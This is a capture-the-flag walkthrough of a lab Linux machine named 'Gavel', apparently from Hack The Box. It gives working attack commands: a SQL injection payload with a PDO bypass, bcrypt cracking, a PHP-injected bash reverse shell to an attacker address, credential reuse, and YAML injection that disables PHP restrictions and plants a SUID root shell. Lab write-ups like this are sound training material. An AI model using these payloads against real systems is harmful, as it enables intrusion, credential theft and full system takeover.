# Gavel

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

## Summary of Attack Chain

| Step | User / Access              | Technique Used                                 | Result                                                                                             |
| :--: | :------------------------- | :--------------------------------------------- | :------------------------------------------------------------------------------------------------- |
|   1  | Local / Recon              | **Nmap port scan & host discovery**            | Discovered open ports `22` (SSH) and `80` (HTTP); added `gavel.htb` to `/etc/hosts`.               |
|   2  | Unauthenticated Web        | **Directory fuzzing (ffuf)**                   | Identified exposed `/.git/` repository on the web server.                                          |
|   3  | Local / Analysis           | **Source code extraction (git-dumper)**        | Recovered application source; identified SQLi in `inventory.php` and an RCE vector in admin rules. |
|   4  | Unauthenticated Web        | **SQL injection (`inventory.php`)**            | Dumped `auctioneer` bcrypt password hash via injectable parameters.                                |
|   5  | Attacker (Offline)         | **Password cracking (John + rockyou)**         | Cracked the hash and recovered valid credentials (`midXXXXXX`).                                    |
|   6  | auth admin (Web Panel)     | **Authenticated RCE (PHP code injection)**     | Logged into admin panel and injected a PHP reverse shell via the rule engine.                      |
|   7  | www-data (Shell)           | **Reverse shell & credential reuse**           | Gained shell access; reused credentials to switch user to `auctioneer`.                            |
|   8  | auctioneer (Local)         | **Privilege enumeration**                      | Discovered `/usr/local/bin/gavel-util` running as root and processing YAML via PHP `runkit`.       |
|   9  | auctioneer (Priv-esc prep) | **YAML-based PHP config injection**            | Overwrote `php.ini` to disable security controls (`open_basedir`, `disable_functions`).            |
|  10  | auctioneer (Priv-esc)      | **SUID binary creation via YAML abuse**        | Created a SUID root bash binary at `/opt/rootbash`.                                                |
|  11  | root                       | **Privilege escalation (SUID bash execution)** | Executed `/opt/rootbash -p`, obtained a root shell, and retrieved **root.txt**.                    |





## Reconnaissance

### Port Scanning

Traditionally, we begin with an Nmap scan and discover two open TCP ports: port `22` with SSH service OpenSSH 8.9p1 (Ubuntu) and port `80` with Apache httpd 2.4.52 web server.

```bash
nmap  -sC -sV -oN nmap_scan.txt 10.XX.XX.XX
```




SSH is unlikely to be useful at this stage without credentials, so we'll focus our attention on exploring the web application as the most promising entry point.

**Open ports:**
- `22/tcp` (SSH - OpenSSH 8.9p1 Ubuntu)
- `80/tcp` (HTTP - Apache httpd 2.4.52)


### Adding Domain to hosts File

We add an entry to `/etc/hosts` for local domain name resolution. This is critically important because the Apache web server is configured to use virtual hosts and processes requests based on the HTTP `Host` header value. Without the proper hosts entry, we won't be able to access the full functionality of the web application.

```bash
echo "10.XX.XX.XX gavel.htb" | sudo tee -a /etc/hosts
```


### Website Exploration

Finally, we open a browser and after adding the domain, we can see the full-featured site:

```
http://gavel.htb
```




We're presented with a fantasy-themed auction web platform offering various virtual goods. The site implements full user registration functionality and a bidding system. From a **pentesting** perspective, this immediately points to potential **attack vectors**: `SQL` injections in login forms and filters, manipulation of `bid parameters`, and vulnerabilities in `transaction processing logic`. Any system where users submit numeric values (`bid amounts`, `lot IDs`) deserves close attention.





Obviously, for further exploration, we need to register — most functionality is hidden behind authentication, and without an account, we won't be able to interact with the bidding and auction system. Let's create a test account and log in.


As mentioned earlier, this application implements auction lot mechanics and subsequent purchasing. The very fact that there's a form through which users place bids should immediately suggest that the key interaction happens with the values transmitted within this form. This means the server processes most of the logic based on data sent by the client in requests.

### Directory Discovery

Now let's conduct reconnaissance of the web application structure. We'll use `ffuf` to search for hidden files and directories — developers often leave service scripts, backups, or configuration files publicly accessible, which can reveal additional attack vectors:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -u http://gavel.htb/FUZZ -e .php
```


**What we find:**
- `/admin.php` — admin panel (currently inaccessible without credentials)
- `/inventory.php` — inventory of goods
- `/.git/` — **exposed Git repository!** (This is a serious finding)



### Extracting Source Code from Git Repository

Since we've found a goldmine, we'll use the specialized tool `git-dumper` to extract it, which recursively downloads all Git objects and restores the complete project structure:

```bash
git-dumper http://gavel.htb/.git/ ./gavel-source
```



Now we have full access to the application's source code — this significantly simplifies vulnerability discovery. I think when analyzing the code, we should focus on critical files: `admin.php`, `inventory.php`, `login.php`, and the `includes/` directory. We also pay special attention to: SQL queries, configuration files, authentication logic, and user data processing.

At this stage, I spent considerable time understanding the application structure. I used everything: various analysis tools, AI assistance, and my own PHP and web development knowledge. In the end, persistence paid off — detailed examination of the source code revealed critical vulnerabilities:

1. **SQL Injection in `inventory.php`** — the `user_id` and `sort` parameters are passed into the SQL query without proper sanitization, allowing arbitrary SQL commands to be executed through backtick injection
2. **Unsafe rule processing in admin panel** — the dynamic rule system for auctions uses `runkit_function_add()` to dynamically create PHP functions from user input, which opens the possibility for Remote Code Execution (RCE)
3. **Lack of rate limiting** on critical endpoints — allows brute-forcing credentials

Finally, we can form a complete attack chain: SQL Injection → credential extraction → admin panel access → RCE through the rule system.


### SQL Injection for Credential Extraction

As I mentioned above, the `inventory.php` file immediately caught my attention — the way user parameters were processed seemed too suspicious. After more detailed analysis, my suspicions were confirmed: the `user_id` and `sort` parameters go directly into the SQL query without any filtering. Classic SQL injection through backtick injection. For exploitation, we use the following payload:

```
http://gavel.htb/inventory.php?user_id=x`+FROM+(SELECT+group_concat(username,0x3a,password)+AS+`%27x`+FROM+users)y;--+-&sort=\?;--+-%00
```





Key points for bypassing PDO:
- `\?` — backslash before the question mark breaks parameter detection, since PDO scans for `?` placeholders **before** MySQL syntax parsing and doesn't recognize the escaped version
- `%00` — null byte causes string truncation at the C level in the MySQL driver, effectively "cutting off" the rest of the query

The response returns credentials for user `auctioneer`, the password is of course in bcrypt hash form, but that's just a matter of technique.


**Example result:** - auctioneer:$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS...

### Password Cracking

Now we need to crack this hash. First, we save it to a file:

```bash
echo 'auctioneer:$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS' > hash.txt
```

Then we unleash John the Ripper with the classic rockyou.txt. Bcrypt is not a fast method for us, but as I mentioned, this requires patience and persistence. If the password is weak, we have a chance:

```bash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Result:** - Password: midXXXXXX




### Logging into Admin Panel

Now for the most interesting part — we go to the admin panel and use the credentials we already have (login and password - `auctioneer:midXXXXXX`)


And what do we see: as an administrator, we have infinite local coins with which we can simply buy out the entire auction and live happily. I admit, I couldn't resist and spent a couple of minutes buying all the lots and my inner collector was satisfied! But, as we remember, we're interested in something completely different — we're not here for virtual trophies, but for complete control over the system.





## Getting Reverse Shell

Next, in the admin panel we find the Rules section — this is where our attack vector is hiding. This section allows the administrator to set dynamic rules for auction lots. As we discovered earlier when analyzing the source code, these rules are processed through `runkit_function_add()`, which means direct execution of PHP code on the server. You'll see 3 items with timers — the system periodically recalculates rules for active lots, and it's at this moment that our malicious code will be executed.


Essentially, the mechanism works like this: when the lot update timer triggers, the server takes the string from the `rule` field and executes it as `PHP code`. Classic **Remote Code Execution (RCE)** vulnerability through unsafe user input processing (code injection).

Now the most interesting part begins — everything before this can be considered preparation. We need to inject a `reverse shell payload` into the rule field and wait for its execution. First, we prepare the listener. Open a new terminal and start netcat in listening mode:

```bash
nc -lvnp 4444
```
You can also replace `4444` with any free port you want to use.

To automate further actions, we'll need the session cookie — without it, the server won't authorize our API requests. The fact is that the web application uses the standard PHP session mechanism: upon authorization, the server generates a unique session identifier and saves it in the `PHPSESSID` cookie (or `gavel_session` — depending on the application configuration). This identifier binds all our requests to the authorized administrator session.

Extract the cookie through browser DevTools:

**Chrome:** `F12` → `Application` tab → `Storage` section → `Cookies` → `gavel.htb`

**Firefox:** `F12` → `Storage` tab → `Cookies` → `gavel.htb`

Copy the cookie value (usually a long string like `XXXXXXXXXXXXXXXXXXXXXXXXX`). We'll pass this token in the `Cookie` header when executing curl requests so the server perceives them as actions of an authorized administrator.


Now we need to get the `auction_id` of active lots. As I mentioned, items in the system have update timers — this is a window of opportunity for exploitation. When the timer triggers, the server executes the rule for that lot, and it's at this moment that our payload will be executed. But to place a bid on the right lot and trigger rule execution, we need to know its identifier.

Parse the bidding page and extract `auction_id` using curl and grep:


After obtaining `auction_id`, we proceed to the key stage — injecting the reverse shell payload. We return to the admin panel, find the **Rules** section, and edit the rule for one of the active lots.

In the rule field, we insert the following PHP code:

```php
system('bash -c "bash -i >& /dev/tcp/XX:XX:XX:XX/4444 0>&1"'); return true;
```




Now we trigger the execution of our payload. Open a new terminal (netcat should continue listening in the first one) and send a POST request to the bid handler:

```bash
curl -X POST 'http://gavel.htb/includes/bid_handler.php' \
     -H 'X-Requested-With: XMLHttpRequest' \
     -H 'Cookie: PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXXX' \
     -d 'auction_id=1&bid_amount=50000'
```




At this very moment, when we entered our payload, the server checks the rules for the lot, our code is executed, a reverse connection to netcat is initiated, and at this moment we should receive a shell.

Also, it's very important not to forget to change auction_id to the current one and cookie to your session. Lots may have different or identical lifetimes, so keep this in mind — it's important.


### Shell Stabilization and Switching to auctioneer User

After getting the reverse shell, we find ourselves in a "raw" environment as `www-data`. Here's what we see in the netcat terminal:


This is a so-called "dumb" shell — tab completion doesn't work, up/down arrows don't scroll through command history, and `Ctrl+C` will simply kill the connection. First, we stabilize the shell through Python:

```
www-data@gavel:/var/www/html/includes$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@gavel:/var/www/html/includes$
```




The `pty` module creates a pseudo-terminal that emulates a real TTY. Now the shell thinks it's working in a full-featured terminal — tab completion appears and commands work correctly.

### Switching to auctioneer User

Currently, we're working as user `www-data` — this is a service account under which the Apache web server runs. It has minimal privileges and limited system access. However, we have an ace up our sleeve — remember the password `midXXXXXX` that we obtained through SQL injection and cracked using John the Ripper?

We're very lucky and it turns out that user `auctioneer` uses the same password for both the web application and the system account. We don't waste time and switch:

```
www-data@gavel:/var/www/html/includes$ su auctioneer
Password: midXXXXXX
auctioneer@gavel:/var/www/html/includes$ cd /home/auctioneer
auctioneer@gavel:~$
```




If everything went successfully, the command prompt will change from `www-data@gavel` to `auctioneer@gavel`. Now we have access to the user's home directory and files.

First goal achieved — we've gained access to a system user. Now we need to find the flag. We use the find command for searching:

```bash
find / -name "root.txt" 2>/dev/null
find /home -name "user.txt" 2>/dev/null
```
The search result shows the path: `/home/auctioneer/user.txt`.

We successfully retrieve the flag!

```bash
cat /home/auctioneer/user.txt
```




## Privilege Escalation to Root

### System Exploration

Now begins the privilege escalation phase. We explore the system for interesting files and utilities:

```bash
auctioneer@gavel:~$ ls -la /opt/
auctioneer@gavel:~$ ls -la /usr/local/bin/
```

When exploring the system, we discover the `gavel-util` utility in `/usr/local/bin/`. This utility allows sending YAML files with descriptions of auction items. The key point: the `rule` field in YAML is processed by the same `runkit_function_add()` mechanism we used to get the reverse shell, but now the code executes with elevated privileges!





### YAML Injection — Two-Stage Attack

The attack consists of two stages: first we disable the PHP sandbox, then we create a SUID copy of bash.

#### Stage 1: Disabling PHP Restrictions

We create a YAML file that overwrites the PHP configuration, removing all protective restrictions (`open_basedir`, `disable_functions`):

```bash
auctioneer@gavel:~$ echo 'name: fixini' > fix_ini.yaml
auctioneer@gavel:~$ echo 'description: fix php ini' >> fix_ini.yaml
auctioneer@gavel:~$ echo 'image: "x.png"' >> fix_ini.yaml
auctioneer@gavel:~$ echo 'price: 1' >> fix_ini.yaml
auctioneer@gavel:~$ echo 'rule_msg: "fixini"' >> fix_ini.yaml
auctioneer@gavel:~$ echo "rule: file_put_contents('/opt/.config/php/php.ini', \"engine=On\\ndisplay_errors=On\\nopen_basedir=\\ndisable_functions=\\n\"); return false;" >> fix_ini.yaml
```

Submit the file for processing:

```bash
auctioneer@gavel:~$ /usr/local/bin/gavel-util submit /home/auctioneer/fix_ini.yaml
Item submitted for review in next auction
```




> **Important:** Wait a few seconds while the system processes the YAML and executes the code from the `rule` field.

#### Stage 2: Creating SUID bash

Now that PHP restrictions are removed, we create a YAML file that will copy `/bin/bash` and set the SUID bit on the copy:

```bash
auctioneer@gavel:~$ echo 'name: rootshell' > rootshell.yaml
auctioneer@gavel:~$ echo 'description: make suid bash' >> rootshell.yaml
auctioneer@gavel:~$ echo 'image: "x.png"' >> rootshell.yaml
auctioneer@gavel:~$ echo 'price: 1' >> rootshell.yaml
auctioneer@gavel:~$ echo 'rule_msg: "rootshell"' >> rootshell.yaml
auctioneer@gavel:~$ echo "rule: system('cp /bin/bash /opt/rootbash; chmod u+s /opt/rootbash'); return false;" >> rootshell.yaml
```

Submit for execution:

```bash
auctioneer@gavel:~$ /usr/local/bin/gavel-util submit /home/auctioneer/rootshell.yaml
Item submitted for review in next auction
```




### Obtaining ROOT Privileges

After processing the second YAML file, we check if the SUID file was created:

```bash
auctioneer@gavel:~$ ls -l /opt/rootbash
-rwsr-xr-x 1 root root 1396520 Dec  5 20:26 /opt/rootbash
```




Excellent! We see the `s` flag in the permissions (`-rwsr-xr-x`) — this means the SUID bit is set. Now any user who runs this file will get the owner's (root) privileges.

We run rootbash with the `-p` flag (preserve privileges) to maintain elevated privileges:

```bash
auctioneer@gavel:~$ /opt/rootbash -p
rootbash-5.1# whoami
root
```

We've obtained root access! Now we retrieve the final flag:

```bash
rootbash-5.1# cat /root/root.txt
